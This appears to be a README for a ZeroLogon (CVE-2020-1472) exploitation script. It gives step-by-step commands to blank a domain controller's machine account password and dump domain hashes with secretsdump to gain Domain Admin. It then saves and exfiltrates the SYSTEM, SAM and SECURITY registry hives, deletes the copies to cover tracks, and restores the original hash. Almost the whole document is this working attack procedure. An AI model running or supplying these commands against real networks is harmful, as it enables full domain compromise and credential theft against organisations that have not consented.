 # ZeroLogon exploitation script

Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc.

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/64ce46580286b5ab15a4737bddf85201ce2adde3 or newer. Then, do:

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

If that's successful you will then be able to:
```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```
which should get you Domain Admin. After you have that, wmiexec.py to the target DC with a credential from the secretsdump and do
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Then you can
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by
```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

Reinstalling the original hash is necessary for the DC to continue to operate normally.